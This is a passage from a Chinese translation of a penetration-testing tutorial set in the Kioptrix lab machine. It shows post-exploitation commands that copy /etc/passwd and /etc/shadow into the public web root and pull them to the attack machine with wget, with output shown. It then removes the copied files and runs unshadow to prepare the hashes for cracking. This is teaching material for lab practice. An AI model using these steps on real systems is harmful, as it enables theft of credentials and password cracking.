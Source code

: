### 移动文件

在这一点上，已经有很多数据通过屏幕。通常，您会希望将这些数据推回到您控制的系统中。无论是内部设置为存储库的受损系统，还是与攻击系统的直接连接，您都需要想出一些方法将这些数据传输回去。

### 注

请勿使用生产级开放式 web 服务器存储或传输机密文件！经验法则是，你应该像对待自己的客户数据一样对待客户数据，将关键密码文件放在开放共享或任何其他不受控制的存储上是一个非常糟糕的主意。在现实生活中，您可以设置一个安全的传输机制，在该机制中您可以完全控制数据。它也应该尽可能地加密，特别是在通过互联网路由时。

Kioptrix 机器安装了一个开放式 web 服务器，因此获取文件的最简单方法之一就是将其复制到 `/var/www/html`目录，该目录对所有人开放。在 Kioptrix 壳类型中：

```
cp /etc/passwd /var/www/html/passwd
cp /etc/shadow /var/www/html/shadow
chmod 744 /var/www/html/shadow

```

通过键入以下内容来提取回溯路径上的文件，这将创建一个名为 `kioptrixFiles`的目录，将 `pwd`更改为该目录，然后从 Kioptrix web 服务器上提取文件：

```
# mkdir kioptrixFiles
# cd kioptrixFiles
root@bt:~/kioptrixFiles# wget http://192.168.75.14/passwd
--2012-01-08 15:36:37-- http://192.168.75.14/passwd
Connecting to 192.168.75.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1330 (1.3K) [text/plain]
Saving to: `passwd'
100%[======================================>] 1,330 --.-K/s in 0s
2012-01-08 15:36:37 (25.1 MB/s) - `passwd' saved [1330/1330]
root@bt:~/kioptrixFiles# wget http://192.168.75.14/shadow 
--2012-01-08 15:44:08-- http://192.168.75.14/shadow
Connecting to 192.168.75.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 948 [text/plain]
Saving to: `shadow'
100%[====================================>] 948 --.-K/s in 0s
2012-01-08 15:44:08 (50.9 MB/s) - `shadow' saved [948/948]

```

`shadow`和 `passwd`现在都在回溯 `kioptrixFiles`目录中。在继续之前，我们应该从 Kioptrix 机器上的 web 服务器上删除两个文件：

```
rm /var/www/html/shadow
rm /var/www/html/passwd

```

在回溯机器上打开一个 shell 并浏览到您的 `/pentest/passwords/john`目录，在那里我们将使用 unshadow 将 Kioptrix `passwd`和 `shadow`文件合并到 `kioptrixPW.db`中。

```
# cd /pentest/passwords/john
# pentest/passwords/john# ./unshadow /root/kioptrixFiles/passwd /root/kioptrixFiles/shadow > /root/kioptrixFiles/kioptrixPW.db 

```

